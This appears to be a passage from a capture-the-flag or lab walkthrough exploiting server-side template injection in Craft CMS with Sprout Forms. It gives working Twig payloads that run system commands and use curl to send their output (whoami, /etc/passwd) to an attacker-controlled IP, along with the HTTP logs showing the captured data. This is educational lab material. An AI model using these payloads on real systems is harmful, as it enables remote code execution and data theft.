<figure><figcaption><p>Craft Admin Page</p></figcaption></figure>

<figure><figcaption><p>Submitting Form</p></figcaption></figure>

<figure><figcaption><p>Form Email</p></figcaption></figure>

<figure><figcaption><p>Submitting Template</p></figcaption></figure>

_cURL Payload_

```twig
{{[0]|reduce('system','curl http://192.168.49.51/helloFromTheOtherSide')}}
```

_Python HTTP Server_

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

_SSTI Confirmation_

```bash
192.168.51.105 - - [09/Jul/2021 14:28:16] code 404, message File not found
192.168.51.105 - - [09/Jul/2021 14:28:16] "GET /helloFromTheOtherSide HTTP/1.1" 404 -
```

### Craft CMS with Sprout Forms - Exploitation

<figure><figcaption><p>Twig Sandbox</p></figcaption></figure>

_Exfiltration Payload_

```twig
{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}
```

_Exfiltration in HTTP log_

```log
192.168.51.101 - - [09/Jul/2021 14:44:49] "GET /?exfil= HTTP/1.1" 200 -
```

_URL Encoding Exfil_

```twig



{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}
```

_Encoded message in HTTP log_


```log
192.168.51.101 - - [09/Jul/2021 15:45:57] "GET /?exfil=Hello%20%26%20Goodbye HTTP/1.1" 200 -
```


_Executing whoami and Exfiltrating the Output_

```twig


{{[0]|reduce('system','whoami')}}




{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}
```

_Output of whoami Logged_


```log
192.168.51.101 - - [09/Jul/2021 15:55:59] "GET /?exfil=www-data%0Awww-data%0A HTTP/1.1" 200 -
```


<figure><figcaption><p>Payload in Craft CMS</p></figcaption></figure>

_/etc/passwd From Craft_


```log
192.168.51.105 - - [09/Jul/2021 15:57:50] "GET /?exfil=%3Cbr%20%2F%3E%0Aroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fash%0Abin%3Ax%3A1%3A1%3Abin%3A%2Fbin%3A%2Fsbin%2Fnologin%0Adaemon%3Ax%3A2%3...
```


<figure><figcaption><p>Burp Decoder</p></figcaption></figure>

<figure><figcaption><p>Selecting URL Decoding</p></figcaption></figure>

<figure><figcaption><p>Burp Decoding /etc/passwd</p></figcaption></figure>
